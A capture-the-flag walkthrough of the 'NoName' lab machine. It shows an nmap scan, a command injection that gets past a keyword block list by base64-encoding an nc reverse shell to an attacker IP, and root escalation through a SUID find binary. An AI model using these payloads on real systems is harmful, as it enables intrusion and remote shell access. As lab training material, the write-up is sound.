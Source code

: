 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


This machine crashes alot so frustrating Machine →

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NoName/Untitled.png)

```bash
IP : 10.0.2.57
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.57     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 15:54 IST
Nmap scan report for 10.0.2.57
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:7E:D4:B7 (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%201.png)

Now Entering any value gives no results so lets see into the directory listing files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%202.png)

lets see the admin directory →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%203.png)

I think paraphrase are used in as password from extracting data from image or file so lets see what I can get from this →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%204.png)

as I got a file named as `superadmin.php` →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%205.png)

Now I see it is pinging the input IP address so lets bypass it and make it into a command Injection →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%206.png)

Now I can execute certain commands so lets see the source code of this superadmin.php file so that  we can debugg this page →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%207.png)

After seeing this code I have to bypass (";","&&","/","bin","&"," &&","ls","nc","dir","pwd") these attributes to gain an access →

So lets use base64 as encoding and decoding system and then executing it .

Lets try →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ echo "nc.traditional -e /bin/bash 10.0.2.15 4444" | base64
bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDEwLjAuMi4xNSA0NDQ0Cg==
```

![Untitled](/Vulnhub-Files/img/NoName/Untitled%208.png)

In response to that I got a local privilege escalation ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%209.png)

Lets enumerate further →

```bash
www-data@haclabs:/home$ ls
ls
haclabs  yash
www-data@haclabs:/home$ cd yash
cd yash
www-data@haclabs:/home/yash$ ls -al
ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Feb 15  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash   13 Feb 15  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
www-data@haclabs:/home/yash$ cat flag1.txt
cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
www-data@haclabs:/home/yash$
```

Now I also got flag2.txt into haclabs directory →

```bash
www-data@haclabs:/home/haclabs$ cat flag2.txt	
cat flag2.txt
I am flag2 

	   ---------------               ----------------
                         
                     
                               --------
www-data@haclabs:/home/haclabs$
```

Now lets see the SUIDs files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%2010.png)

I got a command of `find` that have a permission to get use to root lets try →

```bash
www-data@haclabs:/var/www/html$ find . -exec /bin/bash -p \; -quit 
bash-4.4# whoami
root
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cd /root
bash-4.4# ls -al
total 40
drwx------  6 root root 4096 Jun 28 12:22 .
drwxr-xr-x 24 root root 4096 Mar 14  2020 ..
-rw-------  1 root root    0 Jul 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jan 30  2020 .cache
drwx------  5 root root 4096 Jan 30  2020 .config
drwx------  3 root root 4096 Jan 27  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jan 27  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   32 Jul 14  2020 flag3.txt
-rw-r--r--  1 root root   33 Jun 28 12:22 proof.txt
bash-4.4# cat flag3.txt 
Your flag is in another file...
bash-4.4# cat proof.txt 
718d227b9f5e9b38a754aa386ee60f3d
bash-4.4#
```

Now also lets see the local.txt file in yash directory →

```bash
bash-4.4# cd /home
bash-4.4# ls
haclabs  yash
bash-4.4# cd yash
bash-4.4# ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jun 28 12:22 local.txt
bash-4.4# cat local.txt 
7776aa0d53576f01d200900eded356bd
bash-4.4#
```

---